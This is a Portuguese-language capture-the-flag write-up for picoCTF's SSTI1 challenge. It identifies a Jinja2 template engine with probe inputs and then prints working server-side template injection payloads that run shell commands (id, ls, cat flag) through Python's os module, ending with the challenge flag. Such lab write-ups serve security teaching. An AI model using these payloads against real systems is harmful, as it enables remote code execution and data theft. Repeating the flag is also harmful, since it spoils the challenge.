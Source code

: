 # SSTI1
#### Solved by @joaoselim
> This CTF is about web, SSTI

## About the challenge
A questão [SSTI1](https://play.picoctf.org/practice/challenge/492) possui o enunciado `I made a cool website where you can announce whatever you want! Try it out!` junto de um link gerado para o site

Simplesmente informa que foi criado um site em que nele se pode anunciar qualquer coisa.

## Solution
Ao abrir o site encontra-se uma página simples com espaço para inserir texto

[![tela-inicial.png](https://i.postimg.cc/Z5QY2rfs/tela-inicial.png)](https://postimg.cc/0zpqJJ17)

Sabendo pelo nome da questão, para chegar na flag tem de trabalhar com [SSTI](https://portswigger.net/web-security/server-side-template-injection#what-is-server-side-template-injection), que consiste em injetar códigos em templates que são analisados pelo lado do servidor.
A primeira etapa é identificar qual o tipo de template com o qual se está lidando, para isso se tem alguns testes.

[![template-decision-tree.png](https://i.postimg.cc/RZBLfH18/template-decision-tree.png)](https://postimg.cc/ykLRCWbX)

Seguindo a ordem de inputs para determinar o tipo de template, inserindo `${7*7}` se tem como saída

[![teste1.png](https://i.postimg.cc/mrM4nK1h/teste1.png)](https://postimg.cc/R3M26sRz)

Não funcionou, não chegou a ser executado, simplesmente foi lido e exibido como texto normal. Próximo payload a ser testado, de acordo com a árvore de decisões, é `{{7*7}}`.

Inserindo temos como saída

[![teste2.png](https://i.postimg.cc/nz4Dndgh/teste2.png)](https://postimg.cc/hzGjr0Kk)

Foi executado, o programa entendeu que deveria realizar a multiplicação de `7 * 7` e exibiu o resultado `49`. Ainda seguindo nos testes de identificação, o próximo payload é `{{7*'7'}}`.

Inserindo se tem como saída

[![teste3.png](https://i.postimg.cc/4x144DNM/teste3.png)](https://postimg.cc/v4cw3SnL)

Com isso se determinou que se trata de um template de tipo Jinja2, pois o payload `{{7*'7'}}` em Twig teria tido como saída `49`.

Agora, sabendo em que se baseia o site, se analisa a construção de [payloads específicos para jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/bd5b09a85b06e28a1e3fca58323b3629738e5543/Server%20Side%20Template%20Injection/Python.md#jinja2). Primeiro ao realizar uma análise dos ids usando
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
Já mostrou que o processo roda como root.

[![input1.png](https://i.postimg.cc/4xwK27tm/input1.png)](https://postimg.cc/9DRFrfLh)

Assim seguindo, tendo em mente que já se está no diretório raiz, o próximo passo é identificar onde está guardada a flag.

Então rodando
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```
Aparecem as informações

[![input2.png](https://i.postimg.cc/j2VCnzVk/input2.png)](https://postimg.cc/LYTmrg8z)

O comando `ls` lê quais arquivos e pastas estão guardados na pasta em que você está.

Então agora se tem conhecimento da existência de um arquivo chamado `flag`. Então o próximo passo é ler o que está escrito dentro dele, para isso ao invés do comando `ls` se usa o `cat` e especifica qual arquivo que se quer ler
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```
[![input3.png](https://i.postimg.cc/v894FSfR/input3.png)](https://postimg.cc/yW110jLn)

Assim chegando na flag:
>'picoCTF{s4rv3r_s1d3_t3mpl4t3_1nj3ct10n5_4r3_c001_9451989d}'
